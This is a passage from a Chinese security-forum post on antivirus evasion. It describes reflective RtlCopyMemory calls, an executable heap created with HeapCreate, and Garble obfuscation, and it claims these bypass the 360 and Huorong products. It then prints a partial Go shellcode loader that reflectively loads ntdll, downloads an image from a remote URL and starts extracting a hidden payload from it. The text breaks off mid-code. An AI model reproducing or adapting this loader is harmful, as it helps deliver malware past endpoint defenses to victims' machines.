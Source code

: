 这样能够达到比较好的效果，在这里我将`RtlCopyMemory`通过反射的方式调用，并且使用HeapCreate函数来代替VirtualAlloc函数，最后在使用`Garble`方式进行混淆后我们可以发现:  
![](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-48a8f559803260ca36f5647b5d6e206ae9c841c6.png)  
免杀效果又比之前直接进行混淆的效果更好，不过以上所有的实现均能够直接绕过360+火绒

贴一下实现的源码:

```golo=
package main

import (
    "encoding/base64"
    "fmt"
    "io/ioutil"
    "log"
    "net/http"
    "os"
    "syscall"
    "unsafe"

    "github.com/Binject/universal"
)

var (
    kernel32   = syscall.MustLoadDLL("kernel32.dll")
    HeapCreate = kernel32.MustFindProc("HeapCreate")
)

const (
    KEY_1 = 22
    KEY_2 = 44
    //配置堆属性
    MEM_COMMIT                 = 0x1000
    MEM_RESERVE                = 0x2000
    PAGE_EXECUTE_READWRITE     = 0x40 // 区域可以执行代码，应用程序可以读写该区域。
    HEAP_CREATE_ENABLE_EXECUTE = 0x00040000
)

func main() {
    var ntdll_image []byte

    var err error
    ntdll_image, err = ioutil.ReadFile("C:\\Windows\\System32\\ntdll.dll")

    ntdll_loader, err := universal.NewLoader()

    if err != nil {
        log.Fatal(err)
    }

    ntdll_library, err := ntdll_loader.LoadLibrary("main", &ntdll_image)

    if err != nil {
        log.Fatal(err)
    }

    imageUrl := "未压缩的图片url"
    res, err := http.Get(imageUrl)
    if err != nil {
        os.Exit(0)
    }
    body, err := ioutil.ReadAll(res.Body)
    res.Body.Close()
    //下面判断Jpeg结尾的ffd9
```